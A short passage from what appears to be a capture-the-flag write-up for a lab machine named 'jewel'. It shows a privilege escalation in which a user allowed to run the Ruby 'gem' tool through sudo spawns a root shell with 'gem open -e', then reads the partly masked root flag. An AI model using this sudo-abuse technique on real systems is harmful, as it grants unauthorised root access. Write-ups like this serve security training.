 I’ll give it a try, and it works:

```

bill@jewel:~$ sudo -l                                            
[sudo] password for bill: 
Verification code: 
Matching Defaults entries for bill on jewel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    insults

User bill may run the following commands on jewel:
    (ALL : ALL) /usr/bin/gem
bill@jewel:~$ sudo gem open -e "/bin/sh -c /bin/sh" rdoc
# id
uid=0(root) gid=0(root) groups=0(root)

```

And I can grab `root.txt`:

```

# cat /root/root.txt
d6386b83************************

```